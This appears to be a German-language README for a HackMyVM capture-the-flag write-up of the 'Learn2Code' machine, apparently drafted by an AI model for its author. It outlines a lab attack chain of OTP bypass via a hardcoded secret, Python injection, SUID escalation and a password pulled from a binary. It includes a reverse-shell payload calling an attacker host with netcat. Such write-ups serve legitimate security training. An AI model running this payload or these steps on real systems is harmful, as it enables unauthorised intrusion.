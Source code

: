 Alles klar, Ben! Hier ist der Entwurf für das README der "Learn2Code"-Maschine.

# Learn2Code - HackMyVM (Medium)

![Learn2Code.png](Learn2Code.png)

## Übersicht

*   **VM:** Learn2Code
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Learn2Code)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 19. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/Learn2Code_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Learn2Code" zu erlangen. Der initiale Zugriff erfolgte durch das Ausnutzen einer Webanwendung, die ein hartkodiertes Google Authenticator Secret verwendete und eine unsichere Funktion zur Ausführung von Python-Code bot. Dies ermöglichte Remote Code Execution (RCE) als `www-data`. Die erste Rechteausweitung zum Benutzer `learner` wurde durch einen Exploit einer SUID-Binary (`MakeMeLearner`) erreicht, die vermutlich für einen Buffer Overflow anfällig war. Die finale Eskalation zu Root gelang durch das Extrahieren eines hartkodierten Root-Passworts aus einer weiteren Binary (`MySecretPasswordVault`), die im Home-Verzeichnis des `learner`-Benutzers gefunden wurde.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `wget`
*   PHP (lokal)
*   Python3
*   `hydra` (versucht)
*   `nc` (netcat)
*   `stty`
*   `export`
*   `sudo` (versucht)
*   `find`
*   `ldd`
*   `file`
*   `MakeMeLearner` (Binary)
*   `MySecretPasswordVault` (Binary)
*   IDA Pro (`ida64`)
*   `su`
*   Standard Linux-Befehle (`cat`, `ls`, `cd`, `id`, `tail`, etc.)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Learn2Code" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.157) mit `arp-scan` identifiziert.
    *   `nmap`-Scan offenbarte nur Port 80 (HTTP, Apache 2.4.38) mit dem Titel "Access system".
    *   `gobuster` fand `index.php`, `todo.txt` und das Verzeichnis `/includes/php/`.
    *   Die Verzeichnisauflistung für `/includes/php/` war aktiv und enthüllte `GoogleAuthenticator.php`, `access.php`, `access.php.bak`, `coder.php` und `runcode.php`.

2.  **Code Analysis & OTP Bypass:**
    *   Analyse von `GoogleAuthenticator.php` (aus `/includes/php/`) enthüllte ein hartkodiertes Google Authenticator Secret: `S4I22IG3KHZIGQCJ`.
    *   Die Datei `access.php` verwendete dieses Secret, um den aktuellen OTP-Code zu generieren.
    *   Durch lokales Ausführen von `access.php` konnte der gültige OTP-Code erzeugt werden.
    *   Nach Eingabe des OTP-Codes auf der Webseite (`index.php`) wurde Zugriff auf `coder.php` gewährt.
    *   Das Eingabefeld auf `coder.php` interpretierte die Eingabe als Python-Code (Fehlermeldungen zeigten Python-Tracebacks).

3.  **Initial Access (RCE via Web Interface als `www-data`):**
    *   Ein Python-Payload zur Ausführung von Betriebssystembefehlen wurde erstellt: `__import__('os').system('nc 192.168.2.153 9001 -e /bin/bash')`. (IP und Port des Angreifers)
    *   Dieser Payload wurde in das Code-Eingabefeld auf `coder.php` eingegeben.
    *   Ein Netcat-Listener wurde auf dem Angreifer-System gestartet.
    *   Eine Reverse Shell als Benutzer `www-data` wurde erfolgreich empfangen und stabilisiert.

4.  **Privilege Escalation (von `www-data` zu `learner` via SUID Binary):**
    *   Als `www-data` wurde nach SUID-Dateien gesucht. Die Datei `/usr/bin/MakeMeLearner` (SUID Root, SGID www-data) wurde identifiziert.
    *   Die Ausführung von `MakeMeLearner` mit einem langen, wiederholten Argument (z.B. `MakeMeLearner $(python3 -c 'print("dcba"*20)')`) führte dazu, dass der Benutzerkontext zu `learner` wechselte (wahrscheinlich durch einen Buffer Overflow).

5.  **Privilege Escalation (von `learner` zu `root` via Password Leak):**
    *   Im Home-Verzeichnis von `learner` (`/home/learner/`) wurde die User-Flag (`user.txt`) und eine weitere ELF-Binary namens `MySecretPasswordVault` gefunden.
    *   Die Binary `MySecretPasswordVault` wurde auf das Angreifer-System heruntergeladen.
    *   Analyse der Binary mit IDA Pro (`ida64`) enthüllte ein hartkodiertes Passwort: `NI98hIhj)(Jj`.
    *   Mit `su root` und dem gefundenen Passwort wurde erfolgreich zu Root gewechselt.
    *   Die Root-Flag wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Hartkodiertes Google Authenticator Secret:** Ein Secret für die Zwei-Faktor-Authentifizierung war direkt im PHP-Quellcode hinterlegt, was die Umgehung der OTP-Abfrage ermöglichte.
*   **Unsichere Code-Ausführung (Python Injection):** Eine Webseite (`coder.php`) erlaubte die direkte Eingabe und Ausführung von Python-Code, was zu Remote Code Execution (RCE) führte.
*   **SUID Binary Exploit:** Eine SUID-gesetzte Binary (`/usr/bin/MakeMeLearner`) war anfällig (vermutlich Buffer Overflow), was eine Rechteausweitung von `www-data` zu `learner` ermöglichte.
*   **Hartkodiertes Passwort in Binary:** Das Root-Passwort war in einer ELF-Binary (`MySecretPasswordVault`) gespeichert und konnte durch Reverse Engineering (IDA Pro) extrahiert werden.
*   **Verzeichnisauflistung aktiv:** Ermöglichte das einfache Auffinden und Herunterladen von serverseitigen Skripten.

## Flags

*   **User Flag (`/home/learner/user.txt`):** `N1c3m0veMat3!`
*   **Root Flag (`/root/root.txt`):** `Y0uG0TitbR0!`

## Tags

`HackMyVM`, `Learn2Code`, `Medium`, `Web RCE`, `Python Injection`, `Google Authenticator Bypass`, `SUID Exploit`, `Buffer Overflow`, `Password in Binary`, `IDA Pro`, `Linux`, `Privilege Escalation`
